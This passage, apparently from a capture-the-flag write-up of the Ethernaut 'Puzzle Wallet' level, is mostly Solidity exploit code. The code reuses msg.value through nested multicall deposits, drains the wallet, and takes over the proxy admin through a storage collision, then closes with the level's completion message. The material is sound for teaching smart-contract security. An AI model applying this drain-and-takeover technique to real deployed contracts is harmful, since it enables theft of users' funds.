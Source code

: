 ```solidity
        // Add msg.sender address to the whitelist
        puzzleWallet.addToWhitelist(msg.sender);

        // Build multicall payload
        // - Call deposit twice in two separate multicalls wrapped inside a single multicall
        //
        //         multicall
        //            |
        //     -----------------
        //     |               |
        //  multicall        multicall
        //     |                 |
        //   deposit          deposit

        // Add the deposit function to a bytes array for the multicall payload
        bytes[] memory depositDataArray = new bytes[](1);
        depositDataArray[0] = abi.encodeWithSelector(puzzleWallet.deposit.selector);

        // Create a single multicall payload with two multicall payloads which each call the deposit function
        bytes[] memory multicallPayload = new bytes[](2);
        multicallPayload[0] = abi.encodeWithSelector(puzzleWallet.multicall.selector, depositDataArray);
        multicallPayload[1] = abi.encodeWithSelector(puzzleWallet.multicall.selector, depositDataArray);

        uint256 balance = address(puzzleProxy).balance;

        // Call multicall to deposit twice with the same value
        puzzleWallet.multicall{value: balance}(multicallPayload);

        // Drain the contract by draining twice the balance that was deposited
        puzzleWallet.execute(msg.sender, balance * 2, abi.encode(0x0));

        // Set max balance to msg.sender address to set PuzzleProxy admin to msg.sender
        puzzleWallet.setMaxBalance(uint256(uint160(address(msg.sender))));

        vm.stopBroadcast();
    }
}

```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Next time, those friends will request an audit before depositing any money on a contract. Congrats!
